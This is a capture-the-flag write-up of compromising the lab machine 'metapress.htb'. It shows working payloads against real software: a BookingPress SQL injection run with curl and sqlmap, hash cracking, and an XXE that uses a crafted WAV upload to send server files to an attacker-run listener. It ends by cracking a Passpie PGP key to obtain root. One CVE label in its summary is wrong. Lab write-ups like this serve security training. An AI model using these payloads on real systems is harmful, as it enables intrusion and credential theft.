

Exploitation Summary
Exploitation process: The target machine was running WordPress 5.6.2 with the BookingPress plugin installed, which contained an unauthenticated SQL injection vulnerability (CVE-2023-46604 equivalent). By exploiting this SQLi, I extracted WordPress user credentials from the database and successfully cracked the password hash for the manager user using hashcat.
After gaining authenticated access to WordPress, I leveraged another vulnerability (CVE-2021-29447), an XXE (XML External Entity) injection in WordPress's media upload functionality. This allowed me to read arbitrary files from the server's filesystem, including sensitive configuration files. Through this XXE attack, I discovered FTP credentials in the wp-config.php file, and subsequently found SSH credentials for the jnelson user in the FTP server.
Once logged in as jnelson, privilege escalation was achieved by discovering a .passpie directory containing encrypted password entries, including one for the root user. The passwords were protected by a PGP key with a passphrase. Using gpg2john to extract the PGP key hash and john to crack it, I obtained the passphrase and decrypted the root password, gaining full system access.
Technologies/Exploits: WordPress BookingPress plugin unauthenticated SQLi, WordPress XXE via media upload (CVE-2021-29447), Passpie password manager PGP key cracking.
Initial Reconnaissance
Starting with an nmap scan to identify open ports and services on the target machine:

The scan reveals several services of interest. Port 80 is running an HTTP server, port 21 has FTP (though it appears to be slow and doesn't allow anonymous access), and SSH is available on port 22. I add metapress.htb to my /etc/hosts file to resolve the domain properly.
Web Enumeration - WordPress Discovery
Visiting the web application, I identify it's running WordPress version 5.6.2, which is approximately a year and a half old compared to the machine's release date. The technology stack includes PHP 8.0.24 and nginx 1.18.0.
During enumeration, I confirm the existence of the admin user in WordPress and notice an interesting cookie named wordpress_test_cookie with the value "WP Cookie check".
Plugin Discovery - BookingPress
While wpscan doesn't detect any plugins initially, by examining the web application's functionality, I notice sophisticated booking features that seem too complex to be custom-built. Investigating the POST requests made during booking interactions, I observe several requests to /wp-admin/admin-ajax.php with actions following this pattern:
action=bookingpress_{action_name}Examining the HTML source code reveals this path:
http://metapress.htb/wp-content/plugins/bookingpress-appointment-booking/Visiting this URL returns a 200 status code without displaying content, which confirms the plugin's existence on the server.
Vulnerability Research - BookingPress SQLi
Searching for vulnerabilities in the BookingPress plugin, I discover an unauthenticated SQL injection vulnerability: CVE in WPScan Database
The proof of concept from WPScan outlines the following exploitation steps:
- Create a new "category" and associate it with a new "service" via the BookingPress admin menu (this is already set up on the target)
- Create a page with the
[bookingpress_form]shortcode embedded (also already present) - Visit the page as an unauthenticated user and extract the "nonce" from the source code
- Execute the SQL injection via curl
Extracting the Nonce
I search the HTML source for the string action:'bookingpress_front_get_category_services' and extract the nonce value: d5115693e9
Testing the SQL Injection
Using the provided proof of concept, I test the vulnerability with a UNION-based injection:
curl 'http://metapress.htb/wp-admin/admin-ajax.php' \
--data 'action=bookingpress_front_get_category_services&_wpnonce=d5115693e9&category_id=33&total_service=-7502) UNION ALL SELECT @@version,@@version_comment,@@version_compile_os,1,2,3,4,5,6-- -'The response confirms the vulnerability is exploitable:
[{"bookingpress_service_id":"10.5.15-MariaDB-0+deb11u1","bookingpress_category_id":"Debian 11","bookingpress_service_name":"debian-linux-gnu","bookingpress_service_price":"$1.00","bookingpress_service_duration_val":"2","bookingpress_service_duration_unit":"3","bookingpress_service_description":"4","bookingpress_service_position":"5","bookingpress_servicedate_created":"6","service_price_without_currency":1,"img_url":"http://metapress.htb/wp-content/plugins/bookingpress-appointment-booking/images/placeholder-img.jpg"}]Database Extraction with SQLMap
To automate the data extraction process, I use sqlmap with the vulnerable parameter:
sqlmap 'http://metapress.htb/wp-admin/admin-ajax.php' \
--data 'action=bookingpress_front_get_category_services&_wpnonce=d5115693e9&category_id=33&total_service=-7502) *' --batchSQLMap successfully identifies the injection point and confirms two exploitation techniques:
Parameter: #1* ((custom) POST)
Type: time-based blind
Title: MySQL >= 5.0.12 AND time-based blind (query SLEEP)
Payload: action=bookingpress_front_get_category_services&_wpnonce=d5115693e9&category_id=33&total_service=-7502) AND (SELECT 1124 FROM (SELECT(SLEEP(5)))PBcb)-- LKVn
Type: UNION query
Title: Generic UNION query (NULL) - 9 columns
Payload: action=bookingpress_front_get_category_services&_wpnonce=d5115693e9&category_id=33&total_service=-7502) UNION ALL SELECT CONCAT(0x7176767a71,0x7564676b4a484c774e7a59574f77714b7a4a7267797a43485345664f76725a4b545667527350547a,0x71716b7871),NULL,NULL,NULL,NULL,NULL,NULL,NULL,NULL-- -Back-end DBMS identified as: MySQL >= 5.0.12 (MariaDB fork)
Extracting User Credentials
Using sqlmap's database enumeration options, I extract credentials for two WordPress users from the wp_users table:
+----+----------------------+------------------------------------+-----------------------+------------+
| ID | user_login | user_pass | user_email | user_url |
+----+----------------------+------------------------------------+-----------------------+------------+
| 1 | admin | $P$BGrGrgf2wToBS79i07Rk9sN4Fzk.TV. | admin@metapress.htb | http://... |
| 2 | manager | $P$B4aNM28N0E.tMy/JIcnVMZbGcU16Q70 | manager@metapress.htb | |
+----+----------------------+------------------------------------+-----------------------+------------+ Password Cracking
The password hashes are in phpass format (WordPress MD5-based hash). Using hashcat with mode 400:
hashcat -m 400 hashes.txt /usr/share/wordlists/rockyou.txtSuccessfully cracked the manager's password:
$P$B4aNM28N0E.tMy/JIcnVMZbGcU16Q70:partylikearockstarCredentials: manager:partylikearockstar
I attempt to use these credentials for SSH and FTP access but without success. However, I can successfully authenticate to the WordPress admin panel with these credentials.
WordPress XXE Exploitation (CVE-2021-29447)
After logging into WordPress as the manager user, I notice the media upload functionality. This reminds me of a known vulnerability in WordPress 5.6.2: an authenticated XXE injection when uploading media files.
Reference: CVE-2021-29447 on WPScan
Understanding the XXE Attack
The vulnerability allows an authenticated attacker to read arbitrary files from the server by uploading a specially crafted WAV file containing malicious XML. The attack works by:
- Creating a malicious WAV file with an XML payload containing an external entity reference
- Setting up an HTTP server to host a malicious DTD file
- Uploading the WAV file through WordPress media upload
- WordPress processes the XML, making a request to our server with the file contents encoded
Executing the XXE Attack
I use a proof of concept from GitHub: CVE-2021-29447 PoC
For convenience, I set up a custom Python HTTP server that automatically decodes the base64-encoded exfiltrated data:
from http.server import SimpleHTTPRequestHandler, HTTPServer
import base64
class CustomHandler(SimpleHTTPRequestHandler):
def do_GET(self):
if self.path.startswith('/?p='):
encoded_data = self.path.split('=')[1]
try:
decoded = base64.b64decode(encoded_data).decode('utf-8')
print(f"\n[+] Decoded data:\n{decoded}\n")
except:
print(f"[-] Could not decode: {encoded_data}")
return SimpleHTTPRequestHandler.do_GET(self)
HTTPServer(('0.0.0.0', 8000), CustomHandler).serve_forever()Reading Sensitive Files
Using the XXE vulnerability, I systematically read important system files:
Identifying Users
Reading /etc/passwd reveals a user with shell access:
jnelson:x:1000:1000:jnelson,,,:/home/jnelson:/bin/bashFinding WordPress Directory
From /etc/nginx/sites-enabled/default, I discover the WordPress installation path:
/var/www/metapress.htb/blogExtracting Configuration Credentials
Reading /var/www/metapress.htb/blog/wp-config.php reveals database and FTP credentials:
/** The name of the database for WordPress */
define( 'DB_NAME', 'blog' );
/** MySQL database username */
define( 'DB_USER', 'blog' );
/** MySQL database password */
define( 'DB_PASSWORD', '635Aq@TdqrCwXFUZ' );
/** FTP Configuration */
define( 'FS_METHOD', 'ftpext' );
define( 'FTP_USER', 'metapress.htb' );
define( 'FTP_PASS', '9NYS_ii@FyL_p5M2NvJ' );
define( 'FTP_HOST', 'ftp.metapress.htb' );
define( 'FTP_BASE', 'blog/' );
define( 'FTP_SSL', false );I test these credentials for SSH access as jnelson but they don't work. However, the FTP credentials are valid.
FTP Enumeration
Connecting to the FTP server with the discovered credentials:
ftp metapress.htb@metapress.htbAfter successful authentication, I explore the available directories:
ftp> ls
229 Entering Extended Passive Mode (|||22524|)
150 Opening ASCII mode data connection for file list
drwxr-xr-x 5 metapress.htb metapress.htb 4096 Oct 5 2022 blog
drwxr-xr-x 3 metapress.htb metapress.htb 4096 Oct 5 2022 mailerThe blog directory contains the WordPress installation, but I don't have write permissions to upload a webshell.
Finding SSH Credentials
Exploring the mailer directory, I find a file named send_email.php. I download it using the GET command and discover hardcoded credentials:
$mail->Username = "jnelson@metapress.htb";
$mail->Password = "Cb4_JmWM8zUZWMu@Ys";Initial Access - SSH as jnelson
Using the discovered credentials, I successfully connect via SSH:
ssh jnelson@metapress.htbAfter authentication, I retrieve the user flag from /home/jnelson/user.txt.
Privilege Escalation - Passpie Password Manager
Exploring the system as jnelson, I discover an interesting directory in the user's home: .passpie
Understanding Passpie
Passpie is a command-line password manager that stores credentials encrypted with PGP. Checking the installed version:
jnelson@meta2:~$ passpie --version
passpie, version 1.6.1Listing the stored credentials reveals entries for both jnelson and root:
jnelson@meta2:~$ passpie
╒════════╤═════════╤════════════╤═══════════╕
│ Name │ Login │ Password │ Comment │
╞════════╪═════════╪════════════╪═══════════╡
│ ssh │ jnelson │ ******** │ │
├────────┼─────────┼────────────┼───────────┤
│ ssh │ root │ ******** │ │
╘════════╧═════════╧════════════╧═══════════╛Extracting PGP Keys
Inside the .passpie directory, I find a .keys file containing PGP private and public keys. The passwords are encrypted with these keys, which are themselves protected by a passphrase.
I also find the encrypted password files in .passpie/ssh/:
jnelson.pass- Contains the encrypted SSH password for jnelsonroot.pass- Contains the encrypted SSH password for root
Cracking the PGP Passphrase
To decrypt these passwords, I need to crack the PGP key's passphrase. I transfer the .keys file to my attacking machine and use gpg2john to extract a crackable hash:
gpg2john .keysOutput:
File .keys
Passpie:$gpg$*17*54*3072*e975911867862609115f302a3d0196aec0c2ebf79a84c0303056df921c965e589f82d7dd71099ed9749408d5ad17a4421006d89b49c0*3*254*2*7*16*21d36a3443b38bad35df0f0e2c77f6b9*65011712*907cb55ccb37aaad:::Passpie (Auto-generated by Passpie) ::.keys I save this hash to a file and crack it with john:
john --wordlist=/usr/share/wordlists/rockyou.txt gpghash.txtThe passphrase is successfully cracked: blink182
Extracting Root Password
Now with the PGP passphrase, I can decrypt the root password using passpie's copy command:
jnelson@meta2:~/.passpie$ passpie copy --to=stdout ssh --passphrase=blink182
p7qfAZt4_A1xo_0xRoot Access
Using the extracted root password, I escalate privileges:
jnelson@meta2:~/.passpie$ su
Password:
root@meta2:/home/jnelson/.passpie#I now have root access and can retrieve the root flag from /root/root.txt, successfully completing the machine.